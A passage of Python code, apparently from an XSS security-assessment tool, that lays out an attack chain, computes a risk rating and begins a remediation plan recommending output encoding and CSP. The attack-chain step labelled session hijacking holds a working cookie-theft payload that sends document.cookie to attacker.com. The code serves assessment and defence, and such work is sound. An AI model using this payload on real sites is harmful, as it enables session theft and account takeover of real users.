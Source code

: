 ```python
                    'description': 'Craft malicious payload',
                    'payload': vulnerability['payload'],
                    'objective': 'Create payload that executes JavaScript in victim browser'
                },
                {
                    'step': 2,
                    'description': 'Social engineering delivery',
                    'method': 'Email or social media link',
                    'objective': 'Trick victim into clicking malicious link'
                },
                {
                    'step': 3,
                    'description': 'Session hijacking',
                    'payload': "<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>",
                    'objective': 'Steal victim session cookies'
                },
                {
                    'step': 4,
                    'description': 'Account takeover',
                    'method': 'Use stolen session to impersonate victim',
                    'objective': 'Gain unauthorized access to victim account'
                }
            ],
            'impact': 'Complete account compromise and data theft',
            'prevention': 'Input validation, output encoding, CSP headers'
        }

    def _calculate_xss_risk_rating(self, vulnerabilities: List[Dict[str, Any]]) -> str:
        """
        Calculate XSS risk rating
        """
        if not vulnerabilities:
            return 'LOW'

        high_severity = sum(1 for v in vulnerabilities if v.get('severity') == 'HIGH')

        if high_severity > 2:
            return 'CRITICAL'
        elif high_severity > 0:
            return 'HIGH'
        else:
            return 'MEDIUM'

    def _generate_xss_remediation_plan(self) -> List[Dict[str, Any]]:
        """
        Generate XSS remediation recommendations
        """
        return [
            {
                'priority': 'CRITICAL',
                'recommendation': 'Implement Output Encoding',
                'description': 'Encode all user input before displaying in web pages',
                'implementation': [
                    'HTML entity encoding for HTML contexts',
                    'JavaScript encoding for script contexts',
                    'URL encoding for URL contexts',
                    'CSS encoding for style contexts'
                ]
            },
            {
                'priority': 'HIGH',
                'recommendation': 'Content Security Policy (CSP)',
```